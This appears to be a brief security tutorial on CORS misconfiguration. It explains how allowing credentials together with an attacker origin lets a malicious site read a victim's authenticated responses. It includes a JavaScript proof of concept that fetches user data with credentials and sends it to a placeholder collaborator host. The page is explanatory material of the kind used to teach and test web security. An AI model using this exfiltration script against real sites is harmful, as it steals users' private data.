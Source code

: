 # Cross Origin Resource Sharing
is an HTTP-header based mechanism that allows a webserver to indicate any origins (domain, scheme, or port) other than its own from which a browser should permit loading resources.

 By default, ```XMLHttpRequest``` and ```fetch()``` follow the same-origin policy, meaning they can only request resources from the same origin the application was loaded from unless the response from other origins includes the right CORS headers.

 Consider a webserver that returns the following headers:
 ```Access-Control-Allow-Credentials: true```
 
 ```Access-Control-Allow-Origin: attacker.com```

 These headers specify that client HTTP requests from ```attacker.com``` can be made to the application and the responses can be read, with inclusion of credentials (cookies).

 To exploit this scenario - an attacker might host a malicious website that includes malicious javascript that fetches sensitive information from the vulnerable website,
 and exfiltrates the responses to an attacker controlled server:

 ```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('GET', 'https://vulnerable.com/user-data', true);
req.withCredentials = true;
req.send();

function reqListener() {
   location = '//BURP-COLLABORATOR/exfil?data=' + this.responseText;
};
```
